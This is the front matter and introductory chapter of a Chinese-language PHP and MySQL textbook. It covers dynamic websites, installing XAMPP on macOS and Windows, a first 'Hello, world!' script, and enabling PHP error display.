# PHP & MYSQL 课程与已修正练习：掌握动态网页开发

## 关于作者

马克西米利安·兰博是一位经验丰富的 Web 开发人员和数字技术领域的培训师。凭借其公认的专业知识，他在世界著名的机构主持了众多国际培训课程和研讨会。他卓越的教学方法在学生中赢得了卓越的声誉，得益于他简化复杂概念并使其为所有人所接受的能力。

作为一名拥有 20 多年经验的大学讲师，马克西米利安·兰博分享他对学习和传递 IT 知识的热情。他在教育领域的长期经验使他能够激励世界各地的几代学习者，传授的不仅是技术技能，还有对 Web 开发行业的全球愿景。

马克西米利安·兰博热衷于分享知识，擅长传授计算机技能，激励着世界各地的几代学习者。除了教学活动外，他还为专业人士提供专业培训，帮助他们磨练技能，保持在各自领域的前沿。

他对卓越的奉献、对教学的热情以及他的技术专长，使马克西米利安·兰博成为 Web 开发和数字培训领域不可或缺的参考。

## 前言

在不断变化的数字世界中，掌握 PHP 等 Web 编程语言并操作 MySQL 等数据库，是任何有志成为 Web 开发人员的人的关键技能。我们的书籍《PHP & MySQL：掌握动态 Web 开发》经过精心设计，旨在引导你完成学习过程的每个阶段，从初级到高级。

### A 部分：掌握 PHP 编程基础

在本第一部分中，我们将深入 PHP 编程的核心，探索变量、常量、运算符、条件结构、循环、函数和数组。你将发现如何操作数据、控制程序流程并高效地组织代码。

### B 部分：高级数据管理与浏览器交互

B 部分将进一步带你深入动态 Web 开发，教你如何与浏览器交互。你将学习如何管理表单数据、操作图像和文件，并设置会话和 Cookie 以创建交互式用户体验。

### C 部分：MySQL 数据库管理

数据库管理是 Web 开发的一个基本方面。在本部分中，你将学习如何设计和操作 MySQL 数据库，从连接数据库到插入、检索、更新和删除数据。

### D 部分：Web 应用程序安全

Web 应用程序安全至关重要。本节将为你提供所需的知识，以保护你的 PHP 应用程序免受常见攻击，例如 SQL 注入、跨站点脚本（XSS）和跨站点请求伪造（CSRF）。

### E 部分：PHP 面向对象编程

面向对象编程（OOP）是一种强大的范式，允许你以模块化和可重用的方式结构化代码。在本部分中，你将发现 OOP 的基本概念，包括类、对象、封装、继承、接口、抽象类、异常、命名空间和 Traits。

每个章节都配有大量示例，并附有简单而详细的解释。有些章节配有实践练习，以帮助你将知识付诸实践，并且为了帮助你检查理解情况，每个练习的建议答案都在书末提供。

我们相信，本书将为你提供所需的工具，助你成为一名合格且成熟的 PHP 开发人员。无论你是渴望学习新技能的初学者，还是希望深化知识的资深专业人士，《PHP & MySQL：掌握动态 Web 开发》都是你学习旅程中的理想伴侣。

祝阅读和学习愉快！

## 编辑团队

## 你可以依靠我们的支持！

如果你对本书的任何方面有任何疑问，或需要任何帮助，请发送电子邮件至 contact@skilldeve.com，并在主题行中注明书名。

## 分享你的看法

我们期待听取你的反馈！在浏览《从入门到精通：掌握 HTML 和 CSS》的页面后，我们鼓励你分享你的看法。为此，只需单击以下链接即可访问专门针对本书的 Amazon 评论页面。你的反馈对我们和整个技术社区都很有价值。你的反馈将帮助我们将内容质量保持在最佳水平。我们期待阅读你的想法，并了解这本书如何丰富了你的 HTML 和 CSS 知识。

## 本书有哪些奖励等着你？

访问专门用于 Web 开发的私人社区，你可以在其中交流并提出所有问题。扫描下方的二维码即可访问。

链接：https://www.skilldeve.com/community/developpement-web/join

## 简介与开发环境

在本入门章节中，我们将深入探索使用 PHP 和 MySQL 进行 Web 开发的迷人世界。我们将首先探索网站的工作原理，考察静态网站和动态网站之间的区别，以及与每种类型关联的编程语言。然后，我们将专注于 PHP 编码的开发环境，包括设置本地 Apache 服务器和 MySQL，以便在我们自己的机器上创建和测试 Web 应用程序。


## 网站如何工作？

谈到网站的工作原理，通常会将其分为两大类：静态网站和动态网站。

在深入细节之前，有必要澄清两个基本组件：客户端（对应用户的电脑）和服务器（托管网站）。

根本问题是：这两方如何相互通信？要回答这个问题，我们需要分别查看每种类型网站的通信过程。

对于静态网站，通信分为两个简单步骤：

- 1. 客户端向服务器发送请求以显示网页；
- 2. 服务器通过将请求的网页发回客户端来响应。

具体来说，在这种情况下，服务器将网页作为静态文件存储，并将其发送给客户端，无需进行任何进一步的修改或处理。



另一方面，对于动态网站，过程稍微复杂一些，有一个中间步骤：

- 客户端向服务器发送请求以显示网页；
- 服务器不只是简单地返回现有页面，而是根据客户端的特定请求动态生成页面；
- 然后，服务器将新生成的页面发送给客户端。

在这种情况下，服务器会执行实时处理和计算，为每个客户端请求创建个性化页面。

总之，静态网站和动态网站的根本区别在于网页生成和交付给用户的方式，这在数据处理和内容个性化方面具有重要影响。



## 每种类型网站的编程语言

网站分为两大类：静态和动态。每种类型的网站在开发中都使用特定的编程语言。

### 静态网站

静态网站主要使用 HTML（超文本标记语言）和 CSS（层叠样式表）等标记语言构建。HTML 用于构建网页内容，定义标题、段落、图片等元素。CSS 用于对这些元素进行样式设置和格式化，控制其视觉外观。

### 动态网站

动态网站需要与数据库交互，并使用服务器端编程语言根据用户请求生成个性化内容。用于动态 Web 开发的常见编程语言包括 PHP（超文本预处理器）、Python、ASP.NET、Java、JavaScript 和 Ruby，以及许多其他语言。PHP 是服务器端 Web 开发中最流行的语言之一，因其简单性、灵活性以及与许多数据库管理系统（尤其是 MySQL）的兼容性而闻名。Python 和 Ruby 也因其动态 Web 开发能力和表达性语法而被广泛使用。

了解每种类型网站适用的编程语言对于为特定项目选择最合适的技术，以及开发健壮、功能完善的网站至关重要。

## 开发环境

网站开发有两种主要方法：

### 本地开发

这种方法涉及在自己的计算机上工作，使用特定的开发环境来创建和测试网站。开发完成后，将网站转移到远程托管服务器，以便通过 Internet 访问。这种方法通常更受欢迎，因为它提供了一个隔离的工作环境，不需要永久的 Internet 连接。在本书中，我们将详细探讨如何设置此开发环境。

### 远程开发

使用这种方法，网站开发直接在托管正在开发的网站的远程服务器上进行。这种方法适合在需要与其他团队成员实时协作的复杂项目上工作的资深开发人员。它还允许在投入生产之前在不同的浏览器和操作系统上测试网站。

简而言之，本地开发与远程开发之间的选择取决于项目的具体需求、开发人员的经验以及可用资源。本书中呈现的所有示例在部署到远程服务器之前都在本地进行了测试。

要开发动态网站，我们的机器上需要几个元素：

**Apache 服务器：** 这是负责管理网站的 Web 服务器。但是，默认情况下，Apache 只能处理静态网站，即 HTML 页面。要使其也能处理 PHP，必须添加一个插件。通过将 Apache 与 PHP 结合，我们的计算机将能够读取用 PHP 编写的网页。

**数据库管理系统（DBMS）：** 由于动态网站需要与数据库交互，因此数据库管理工具是必不可少的。MySQL 是为此目的最常用的 DBMS 之一。



幸运的是，有软件程序可以让在计算机上安装这些项目变得容易得多。根据您使用的操作系统，可以从以下选项中选择：

- 对于 Windows：[WAMP 服务器](http://www.wampserver.com/)
- 对于 Mac：[MAMP](https://www.mamp.info/en/downloads/)
- 对于 Linux：[XAMPP](https://www.apachefriends.org/fr/download.html)

XAMPP 有三个不同的版本：一个用于 Windows，一个用于 Mac，一个用于 Linux。尽管它比其他选项（WAMP 和 LAMP）更完整，但没有必要使用其所有功能。在本书中，我们将出于其多功能性安装 XAMPP。但是，您可以自由选择 XAMPP、MAMP 或 WAMP，因为三者的基本操作是相同的。

## 在 Mac OS 上下载和安装 XAMPP

以下是在 macOS 上下载和安装 XAMPP 的步骤：

访问 Apache Friends 官方网站：https://www.apachefriends.org/fr/download.html

在下载页面上，您会看到可用的不同版本的 XAMPP。通过单击相应的下载按钮，选择最适合 macOS 的版本。

| 8.2.12 / PHP 8.2.12 | 内容 | md5 sha1 | 下载 (64 位) | 151 Mb |
|---|---|---|---|---|
| 先决条件 | 更多下载 - | | | |

### XAMPP 适用于 OS X 8.0.28, 8.1.17 & 8.2.4

| 版本 | 验证码 | 大小 |
|---|---|---|
| 8.0.28 / PHP 8.0.28 | 内容 md5 sha1 下载 (64 位) | 150 Mb |
| 8.1.17 / PHP 8.1.17 | 内容 md5 sha1 下载 (64 位) | 151 Mb |
| 8.2.4 / PHP 8.2.4 | 内容 md5 sha1 下载 (64 位) | 150 Mb |

先决条件 更多下载 - 原生安装程序将 MariaDB、PHP、Perl 等直接安装到您的 macOS 系统上。它支持 Intel (x64) 或 Apple M1 (arm64) CPU。

下载完成后，打开下载的文件（它应该在 Mac 的“下载”文件夹中）。

双击安装文件以开始 XAMPP 安装过程。

按照屏幕上的说明在 Mac 上安装 XAMPP。您可能需要输入管理员密码以授权安装。



单击 XAMPP 图标时，可能会出现一个警告窗口，告知您“macOS 无法检查此应用是否包含恶意软件”。在这种情况下，根据您的 Mac 系统版本，您可能需要修改 Mac 的安全设置，以便能够安装 XAMPP：

- 打开“系统设置”。
- 点击“隐私与安全性”，向下滚动并点击“照样打开”按钮，以确认您打算打开或安装该应用。



安装完成后，您将看到一个确认窗口。点击“完成”以关闭安装程序。

XAMPP 现在已安装在您的 Mac 上。要启动服务（Apache、MySQL 等），请从“应用程序”文件夹打开 XAMPP 并运行“manager-osx”文件，然后点击相应的按钮以激活所需的服务。




服务启动后，你可以通过Web浏览器在地址栏输入"localhost"来访问XAMPP管理界面。

这些步骤应该可以让你在Mac上成功下载并安装XAMPP。

## 在 Windows 上下载并安装 XAMPP

以下是在Windows上下载并安装XAMPP的步骤：

访问Apache Friends官方网站：https://www.apachefriends.org/fr/download.html

在下载页面，你将看到不同版本的XAMPP可供下载。单击相应的下载按钮，选择最适合Windows的版本。

下载完成后，双击打开下载的文件。它应该位于你通常下载文件的文件夹中。

XAMPP安装程序将打开。如果Windows要求你授权对计算机进行更改，请单击"是"。

安装程序将引导你完成安装过程。选择你想要安装的组件（默认情况下全部选中），并选择你想要安装XAMPP的文件夹。

单击"安装"按钮开始安装。等待过程完成。

安装完成后，系统将提示你启动XAMPP组件（Apache、MySQL等）。
单击"完成"以关闭安装程序。

XAMPP现已安装在你的计算机上。要启动服务，请从“开始”菜单打开XAMPP，并单击相应的按钮启动Apache和MySQL。

服务启动后，你可以通过Web浏览器在地址栏输入"localhost"来访问XAMPP管理界面。

这些步骤应该可以让你在Windows计算机上成功下载并安装XAMPP。

## 下载并安装文本编辑器

安装XAMPP后，我们建议你下载并安装一个文本编辑器来编写和编辑代码文件。以下是几个适合Web开发的最流行文本编辑器示例：

- **Sublime Text**：Sublime Text是一款轻量级、高度可定制的文本编辑器，具有许多适用于Web开发的有用功能，例如语法高亮显示、自动补全和项目管理。下载链接：https://www.sublimetext.com/
- **Visual Studio Code**：Visual Studio Code（VS Code）是由Microsoft开发的源代码编辑器。它支持扩展，提供Git集成、调试功能以及众多适用于Web开发的扩展。下载链接：https://code.visualstudio.com/
- **Brackets**：Brackets是由Adobe开发的开源文本编辑器。它专为Web开发而设计，包括实时预览、语法高亮显示、自动补全和扩展支持等功能。下载链接：https://brackets.io/

你可以选择最适合你的Web开发需求和偏好的文本编辑器。安装好偏好的文本编辑器后，你可以开始为Web项目创建和编辑代码文件。

## 在 XAMPP 中创建项目

在XAMPP中，你不会直接创建项目，而是在htdocs目录中为你的项目创建目录。具体做法如下：

- **查找htdocs目录：** htdocs目录是存储网站文件的地方。默认情况下，该目录位于XAMPP安装文件夹中。在Windows上，它通常位于C:\xampp\htdocs，而在Mac上，它位于/Applications/XAMPP/htdocs。
- **为你的项目创建新目录：** 在htdocs目录中，为你的项目创建一个新目录。你可以为其命名任意喜欢的名称，例如"ebookphp"。

为你的项目创建好目录后，可以将所有网站文件和文件夹放入其中。这可能包括HTML、CSS、PHP、JavaScript文件、图片等。

- **通过浏览器访问你的项目：** 将项目文件放入创建的目录后，你可以打开Web浏览器并在地址栏中输入以下URL来访问你的网站：http://localhost/ebookphp。请务必将"ebookphp"替换为你为项目创建的目录名称。

按照这些步骤，你可以在XAMPP中创建和访问项目。请确保在XAMPP中启动Apache和MySQL服务，以便你的网站能正常运行。

## 你的第一个 PHP 脚本

以下是使用XAMPP并在“htdocs”文件夹中创建的“ebookphp”目录下创建第一个PHP脚本的步骤：

如上所述启动XAMPP，并通过单击相应的“启动”按钮启动Apache。请确保它们显示为绿色，表示正在运行。

打开你选择的文本编辑器来编写PHP脚本。

在你的文本编辑器中，创建一个新文件并将其保存在XAMPP安装的“htdocs”文件夹中的“ebookphp”目录中。将此文件命名为“first_script.php”。

编写你的第一个PHP脚本：在你的“first_script.php”文件中，编写以下PHP代码：

```
<?php

echo "Hello, world!";

?>
```

编写完PHP脚本后，保存文件。

启动你喜欢的Web浏览器（例如Google Chrome、Mozilla Firefox等）。

在浏览器的地址栏中输入以下URL：http://localhost/ebookphp/premier_script.php，然后按“Enter”。

你应该在浏览器中看到短语"Hello, world!"，这表明你的第一个PHP脚本已成功执行。



恭喜！你刚刚使用XAMPP创建并执行了你的第一个PHP脚本。这个简单的示例标志着你开始使用PHP进入Web开发激动人心的世界之旅。

## 错误显示

正如你所知，出错（尤其是语法错误）是很常见的，我可以向你保证，世界上没有不出错的开发者。因此，显示这些错误的指示非常有用。

事实上，根据服务器的配置，错误可能根本不会被显示！许多初学者在浏览器中运行PHP页面却什么也看不到时会感到困惑。例如，没有错误消息，只是一个空白页。当代码中存在错误且我们的PHP服务器未配置为显示错误时，就会发生这种情况。

要解决这个问题，只需对XAMPP的php.ini文件进行一些更改即可。

要找到该文件的位置，只需将以下代码添加到先前创建的文件first_script.php（或项目中的任何其他文件）中。

```
<?php
phpinfo();
?>
```

此代码用于显示服务器PHP配置的详细信息。当你在PHP文件中执行此代码并在浏览器中打开时，将生成一个网页，其中包含关于已安装PHP版本、激活的模块、配置指令、文件路径、环境变量等大量信息。

此phpinfo()页面通常用于诊断PHP配置问题、检查启用的功能，或只是获取有关正在使用的PHP服务器的详细信息。它提供了PHP环境的有用概览，在开发或配置Web应用程序时尤其有用。

php.ini文件的完整路径位于“已加载的配置文件”行中：

| 已加载的配置文件 | /Applications/XAMPP/xamppfiles/etc/php.ini |
|---|---|

找到php.ini文件后，在文本编辑器中打开它。

查找**display_errors**指令。该指令控制PHP错误是否在屏幕上显示。

默认情况下，该指令通常设置为Off。

; display_errors
; Default Value: On

将display_errors指令的值更改为On。

你还可以设置error_reporting指令来指定要显示的错误级别。例如，你可以设置error_reporting = E_ALL以显示所有错误，或设置error_reporting = E_ALL & ~E_NOTICE以显示除通知以外的所有错误。

; error_reporting
; Default Value: E_ALL

保存对php.ini的更改。

重新启动Apache服务器以使更改生效。

配置完成后，运行PHP脚本时，PHP错误将在屏幕上显示。这将帮助你在开发网站时更快地诊断和解决错误。

## 结论

在本入门章节中，我们为构建适合使用PHP和MySQL创建动态网站的开发环境迈出了几个关键步骤。

我们首先安装了XAMPP，这是一个本地Web服务器，汇集了运行PHP所需的工具

脚本并与 MySQL 数据库交互。此步骤至关重要，因为它使我们能够在自己的计算机上模拟生产环境，从而促进开发和测试过程。

然后我们创建了第一个 PHP 脚本，标志着我们进入引人入胜的 Web 开发世界的旅程开始。通过这个简单的示例，我们探索了 PHP 脚本的基本结构，包括 PHP 标签、输出语句和注释。

最后，我们配置了 PHP 以显示错误，这是有效调试 PHP 脚本的基本做法。通过启用错误显示，我们能够快速识别和纠正代码中的任何语法或逻辑错误。

通过结合这些步骤，我们为使用 PHP 和 MySQL 进行 Web 开发的学习之旅奠定了坚实的基础。我们现在已准备好进一步探索高级概念，创建动态 Web 应用程序，并在这个令人兴奋的领域迎接新挑战。

## SECTION A: 掌握 PHP 编程基础

在本节中，我们将探讨 PHP 编程的基本知识，PHP 是一种功能强大且多用途的脚本语言，用于开发动态、交互式 Web 应用程序。

### 第 1 章：变量、常量、表达式和运算符

我们从 PHP 编程的基础知识开始，包括变量、常量、表达式和运算符。您将学习如何声明变量、为其赋值，并使用表达式和运算符操作这些值。

### 第 2 章：控制结构（if、else、switch、match、while、for）

在本章中，我们将探讨 PHP 中的控制结构，例如 if、else、elseif、switch 和 match 语句。您将了解如何使用这些结构根据特定条件控制代码的执行流程。

### 第 3 章：PHP 中的循环

在本章中，您将了解如何使用 while、for 和 do...while 循环来浏览和操作数据。

### 第 4 章：PHP 中的函数和生成器

函数是 PHP 编程的基础元素。在本章中，我们将探讨如何在 PHP 中定义、调用和使用函数，以及函数内外变量的作用域。我们将详细介绍 PHP 中的生成器，以及如何使用它们生成值的序列。

### 第 5 章：PHP 中的数组

数组是 PHP 中的基本数据结构。在本章中，我们将了解如何在 PHP 中创建、操作和遍历数组，以及它们在 Web 应用程序开发中的实际应用。

### 第 6 章：PHP 内置函数

PHP 提供了多种内置函数，可促进 Web 应用程序的开发。在本章中，我们将探讨 PHP 中一些最常用的内置函数，以及如何在您的项目中有效地使用它们。

### 变量、常量和运算符

### 本章您将学到：

- 变量：如何在 PHP 中声明变量、为其赋值以及在脚本中管理其作用域。
- 表达式：PHP 中表达式的构建与求值，包括使用算术、比较和逻辑运算符来操作数据。
- 运算符：PHP 中提供的各种运算符，例如算术运算符（+、-、*、/）、比较运算符（==、!=、<、> 等）和逻辑运算符（&&、||、!）。
- 使用变量：在 PHP 中命名和使用变量的最佳实践，以及在脚本中管理其作用域和处理方式。
- 字符串连接：如何在 PHP 中使用连接运算符 (.) 组合和操作字符串，以创建更复杂的字符串。
- 数据类型概念：PHP 中不同数据类型的介绍，例如整数、浮点数、字符串、数组等。
- **类型转换概念**：如何在 PHP 中将数据从一种类型转换为另一种类型，尤其是在数值类型和字符串类型之间转换。
- **使用常量**：在 PHP 中定义和使用常量，以存储在脚本执行过程中不变的值。
- **递增和递减运算符**：使用递增 (++) 和递减 (--) 运算符来修改数值变量的值。
- **特殊赋值运算符**：组合赋值运算符（如 +=、-=、*=、/= 等）的语法，用于执行算术运算并在一步中更新变量的值。

通过涵盖这些方面，您将全面深入地理解 PHP 中的变量、表达式和运算符，这将帮助您编写高效且功能完善的 PHP 脚本。

### PHP 中变量和常量简介

PHP 编程基于使用变量和常量来存储和操作数据。在本章中，我们将详细探讨这两个基本概念及其在动态 Web 应用程序开发中的应用。

